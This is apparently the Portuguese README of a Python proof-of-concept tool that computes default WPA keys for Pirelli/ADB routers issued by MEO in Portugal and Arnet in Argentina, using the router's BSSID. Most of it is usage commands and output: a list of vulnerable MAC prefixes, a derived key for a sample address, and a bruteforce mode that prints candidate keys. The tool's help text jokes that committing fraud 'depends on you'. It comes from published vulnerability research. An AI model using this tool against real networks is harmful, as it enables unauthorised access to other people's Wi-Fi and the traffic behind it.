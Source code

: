 Vulnerabilidades nos Routers ADB Italia da MEO. 
==

+ Este algoritmo permite gerar as chaves de encriptação WPA pré-definidas nos Routers da MEO com o SSID "ADSLPT-ABXXXXX".

Referencias
----

* O autor do codigo é [Eduardo Novella](https://twitter.com/enovella_) ([repositório original](https://bitbucket.org/dudux/adbpirelli))  que encontrou a vulnerabilidade nos routers ADB utilizado na Argentina pela operadora Arnet. O codigo neste repositorio encontra-se modificado de modo a funcionar nos routers da MEO.

Aviso
----
Não me responsabilizo por qualquer problema que lhe possa causar o uso indevido deste codigo, seja de que forma for. Este codigo serve apenas para testar a segurança das redes WiFi

Licence
----
GPLv3
http://gplv3.fsf.org/

Mais info
----

+ http://ednolo.alumnos.upv.es/?p=1883

Utilização

O codigo foi escrito em Python
----

	$ python pirelli.py -v
	pirelli.py 1.4 [2015-05-06] ----> http://www.ednolo.alumnos.upv.es

	$ python pirelli.py 
	usage: pirelli.py [-h] [-b [BSSID]] [-v] [-l | -a]

	>>> PoC WPA keygen for WiFi Networks deployed by Arnet in Argentina and MEO in
	Portugal. So far only WiFi networks with essids like WiFi-Arnet-XXXX or
	ADSLPT-ABXXXXX and manufactured by Pirelli are likely vulnerable. See
	http://ednolo.alumnos.upv.es/ for more details. Twitter: @enovella_ and email:
	ednolo[at]inf.upv.es. This software is used just as proof-of-concept, commit
	fraud depends on you!

	optional arguments:
	  -h, --help            show this help message and exit
	  -v, --version         show program's version number and exit
	  -l, --list            List all vulnerable targets
	  -a, --allkeys         Bruteforce mode

	required:
	  -b [BSSID], --bssid [BSSID]
	                        Target mac address

	(+) Help: python pirelli.py -b 74:88:8B:AD:C0:DE

	$ python pirelli.py -l
	[+] Possible vulnerable targets so far:
		 bssid: 00:08:27:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:13:C8:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:17:C2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:19:3E:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:1C:A2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:1D:8B:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:22:33:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 00:8C:54:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 30:39:F2:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 74:88:8B:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: 84:26:15:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: A4:52:6F:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: A4:5D:A1:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: D0:D4:12:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: D4:D1:84:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: DC:0B:1A:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX
		 bssid: F0:84:2F:XX:XX:XX 	 essid: WiFi-Arnet-XXXX, ADSLPT-ABXXXXX

	$ python pirelli.py -b 74:88:8B:AD:C0:DE
	[+] MAC     : 74:88:8B:AD:C0:DE
	[+] WPA key : 057mjyggor	SSID: WiFi-Arnet-XXXX (Argentina)
	[+] WPA key : 057mjygg  	SSID: ADSLPT-ABXXXXX  (Portugal)

	$ python pirelli.py -b 74:88:8B:AD:C0:DE -a
	[+] MAC     : 74:88:8B:AD:C0:DE

	[+] WPA keys for SSID: WiFi-Arnet-XXXX (Argentina)
	3c1nrhqy5z
	tugh1hcfog
	057mjyggor
	hj0wl2c2r7
	9yw6um3tc5
	ituqajo8iq
	wfti5odq8c

	[+] WPA keys for SSID: ADSLPT-ABXXXXX  (Portugal)
	3c1nrhqy  
	tugh1hcf  
	057mjygg  
	hj0wl2c2  
	9yw6um3t  
	ituqajo8  
	wfti5odq 